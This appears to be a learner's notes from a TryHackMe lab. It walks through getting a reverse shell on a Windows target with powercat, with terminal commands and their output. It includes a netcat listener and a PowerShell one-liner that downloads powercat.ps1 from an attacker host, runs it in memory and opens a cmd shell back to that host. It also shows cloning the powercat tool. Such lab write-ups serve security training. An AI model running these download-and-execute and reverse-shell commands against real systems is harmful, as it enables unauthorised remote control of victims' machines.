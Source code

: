On the AttackBox, we need to listen on port 1337 using nc to receive the connection back from the victim.

```Terminal
		
user@machine$ nc -lvp 1337

```

Now, from the victim machine, we download the payload and execute it using PowerShell payload as follows,

```Terminal
	
C:\Users\thm\Desktop> powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"

```

Now that we have executed the command above, the victim machine downloads the powercat.ps1  payload from our web server (on the AttackBox) and then executes it locally on the target using cmd.exe and sends a connection back to the AttackBox that is listening on port 1337. After a couple of seconds, we should receive the connection call back:

```Terminal
		
user@machine$ nc -lvp 1337  listening on [any] 1337 ...
10.10.12.53: inverse host lookup failed: Unknown host
connect to [10.8.232.37] from (UNKNOWN) [10.10.12.53] 49804
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\thm>
    
```

Apply what you learned in this task. In the next task, we will discuss Command and Control frameworks! 
*No answer needed*

![[Pasted image 20220910105545.png]]

![[Pasted image 20220910105733.png]]

```
──(kali㉿kali)-[~]
└─$ git clone https://github.com/besimorhino/powercat.git
Cloning into 'powercat'...
remote: Enumerating objects: 239, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 239 (delta 0), reused 2 (delta 0), pack-reused 235
Receiving objects: 100% (239/239), 61.75 KiB | 626.00 KiB/s, done.
Resolving deltas: 100% (72/72), done.
                                                                          
┌──(kali㉿kali)-[~]
└─$ ls
armitage-tmp  Downloads     multi_launcher  powercat     Templates
book.txt      ftp_flag.txt  Music           Public       thm.hta
Desktop       hashctf2      payload.hta     stager2.bat  Videos
Documents     launcher.bat  Pictures        Sublist3r
                                                                          
┌──(kali㉿kali)-[~]
└─$ cd powercat 
                                                                          
┌──(kali㉿kali)-[~/powercat]
└─$ ls
powercat.ps1  README.md
```